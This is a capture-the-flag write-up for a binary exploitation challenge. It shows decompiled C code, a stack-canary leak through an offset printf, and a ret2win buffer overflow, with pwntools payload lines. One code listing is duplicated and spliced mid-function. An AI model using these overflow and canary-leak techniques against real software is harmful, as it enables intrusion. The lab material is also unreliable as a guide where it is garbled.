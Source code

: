 # Enumeration

First of all, we start with a `checksec`:  

![Screenshot from 2025-03-27 00-38-37](https://github.com/user-attachments/assets/3920eca5-f740-4ad0-ad07-975e511cdbbb)



### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  duckling(argc, argv, envp);
  return 0;
}

```

As we can see, `main` only calls `duckling()`. Taking a look there.

```c
unsigned __int64 duckling()
{
  char *v1; // [rsp+8h] [rbp-88h]
  _QWORD buf[4]; // [rsp+10h] [rbp-80h] BYREF
  _QWORD v3[11]; // [rsp+30h] [rbp-60h] BYREF
  unsigned __int64 v4; // [rsp+88h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(buf, 0, sizeof(buf));
  memset(v3, 0, 80);
  printf("Quack the Duck!\n\n> ");
  fflush(_bss_start);
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  if ( !v1 )
  {
    error("Where are your Quack Manners?!\n");
    exit(1312);
  }
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
  read(0, v3, 0x6AuLL);
  puts("Did you really expect to win a fight against a Duck?!\n");
  return v4 - __readfsqword(0x28u);
}
```

As we can see, there are 2 buffers, `buf[4]` and `v3[11]` of unknown size so far. The juice of the challenge is these 2 lines:

```c
  read(0, buf, 0x66uLL);
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```

Our first input goes to `buf` and we get a leak of `v1 + 32`. That means we can leak up to `32` from the end of the buffer 
where the string `Quack Quack ` is found in our input string. Luckily, we see that we can leak the `canary` address at such offset when debug.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  int fd; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  fd = open("./flag.txt", 0);
  if ( fd < 0 )
  {
    perror("\nError opening flag.txt, please contact an Administrator\n");
    exit(1);
  }
  while ( read(fd, &buf, 1uLL) > 0 )
    fputc(buf, _bss_start);
  close(fd);.
After that, we can overflow the second buffer and perform a `ret2win`. There is a function called `duck_attack` that prints the flag.

```c
unsigned __int64 duck_attack()
{
  char buf; // [rsp+3h] [rbp-Dh] BYREF
  return v3 - __readfsqword(0x28u);
}
```

### Debugging 
I used IDA pro, so it automatically debug and find the address of variables for me. You can see that on the comments of the disassembled code.

Now, to prove all this theory we can check the debugging. 
```
Địa chỉ cao    +----------------+
               | Địa chỉ trở về |
        rbp -> +----------------+
               |Canary[rbp-0x8] |  <-- v4
               +----------------+
               |                |
               |     .....      |  (các biến khác, padding)
               |                |
               +----------------+
               |                |
               |   buf[rbp-0x80]    |  <-- buf[4] bắt đầu từ [rbp-0x80]
               |                |
               +----------------+
               |                |
        rsp -> +----------------+
Địa chỉ thấp
```
![image](https://github.com/user-attachments/assets/543c1298-bbd7-4150-92b8-1616e78584cb)

So the distance between Canary and buf is `0x80-0x8 = 0x78` bytes. But, to override the Canary, we need one more byte so need to pass 121 bytes to get Canary leak.
And then `\x00` is overrided which is the last byte of canary.
```c
  v1 = strstr((const char *)buf, "Quack Quack ");
  printf("Quack Quack %s, ready to fight the Duck?\n\n> ", v1 + 32);
```
Thus, `v1+32=121` and  v1 is the first letter that is found from input. 
So we need to send:
`89*'A' + "Quack Quack "(12 bytes) = total 101 bytes = 0x65`
```python
r.sendlineafter('> ', b'A'* (0x65 - len('Quack Quack ')) + b'Quack Quack ')

r.recvuntil('Quack Quack ')

canary = u64(r.recv(7).rjust(8, b'\x00'))
```

After have Canary value, we calculate the distance between the second input and the canary as the previous one.
`0x60-0x8= 88 bytes`. This time we dont need to plus 1 byte because we have the canary value.
So the payload is:
`88*'A' + Canary + 8 bytes (save rbp) + return address(duck_attack)`.
In my code, i write `canary*2`. because one for canary, one for override the 8 bytes save rbp.

# Result
![image](https://github.com/user-attachments/assets/60d16b42-810e-4b92-acc2-8eedfdfa18f2)


